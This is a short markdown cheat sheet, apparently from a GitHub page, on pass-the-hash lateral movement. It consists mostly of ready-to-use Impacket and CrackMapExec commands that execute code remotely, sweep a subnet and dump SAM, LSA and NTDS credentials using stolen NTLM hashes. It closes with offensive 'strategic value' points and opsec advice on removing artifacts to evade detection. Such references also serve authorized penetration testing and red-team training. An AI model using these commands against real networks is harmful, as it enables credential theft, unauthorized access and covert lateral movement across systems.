 ### Pass-the-Hash Commands Reference

**Impacket Tool Suite:**
```bash
# WMI execution
impacket-wmiexec -hashes :hash Administrator@target

# PsExec-style execution
impacket-psexec -hashes :hash Administrator@target

# SMB execution
impacket-smbexec -hashes :hash Administrator@target

# Scheduled task execution
impacket-atexec -hashes :hash Administrator@target

# Credential dumping
impacket-secretsdump -hashes :hash Administrator@target
```

**CrackMapExec Integration:**
```bash
# Single target authentication
crackmapexec smb target -u Administrator -H hash

# Network-wide testing
crackmapexec smb network/24 -u Administrator -H hash

# Command execution
crackmapexec smb target -u Administrator -H hash -x "command"

# Credential dumping
crackmapexec smb target -u Administrator -H hash --sam --lsa --ntds
```

### Key Insights for Pass-the-Hash

**Strategic Value:**
- **Rapid Lateral Movement:** Immediate access to additional systems
- **Credential Reuse:** Leverage previously compromised credentials
- **Administrative Context:** Gain administrative access on target systems
- **Network Expansion:** Access previously unreachable network segments

**Operational Security:**
- **Hash Protection:** Secure storage and handling of extracted hashes
- **Network Monitoring:** Awareness of SMB traffic patterns and detection
- **Tool Selection:** Choose appropriate tool based on target environment
- **Cleanup Procedures:** Remove artifacts and maintain operational security

Pass-the-Hash remains a fundamental lateral movement technique, providing direct administrative access to remote systems using NTLM hashes while leveraging legitimate Windows authentication mechanisms.

---
